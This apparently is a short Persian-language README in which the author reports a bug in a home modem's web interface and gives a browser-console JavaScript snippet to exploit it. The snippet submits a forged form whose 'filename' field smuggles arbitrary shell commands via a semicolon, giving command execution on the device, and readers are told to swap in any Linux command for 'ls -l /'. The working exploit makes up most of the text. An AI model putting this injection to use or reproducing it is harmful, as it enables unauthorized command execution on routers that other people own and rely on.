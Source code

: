 اقا بعد از چند روز کار روی این مودم متوجه یک باگ شدم که دسترسی ترمینال میده و میتونید به ترمینالش دسترسی پیدا کنید فقط باید این خط کد رو داخل سیستمتون وارد کنید 
به صفحه software مودم برید و کلیک راست بزنید و سپس inspect  را بزنید سپس در قسمت کنسول 
 داخل اسکرین شات نشان دادم کجا باید این کد را وارد کرد 

```
(()=>{
    let cmd=`ls -l /`;
      document.getElementById("submenuOnLeftArea4_5").click();let f=document.createElement("form");f.method="post";f.name="sw_remove";f.id="sw_remove";f.action=NewFormAction("control_panel_sw.asp","remove");let c=document.createElement("input");c.type="hidden";c.name="confirm_code";c.value=document.getElementsByName("confirm_code").value;let d=document.createElement("input");d.type="hidden";d.id="filename";d.name="filename";d.value=`c;cd /mnt/jffs2  ;echo "---------------------" ; ${cmd} ; echo "---------------------" ; exit`;f.appendChild(c);f.appendChild(d);document.body.appendChild(f);f.submit()})();

```
 بعد به راحتی به جای  ls -l /
 کد لینوکسی که میخواهیم را جایگذاری میکنیم و اینتر میزنیم
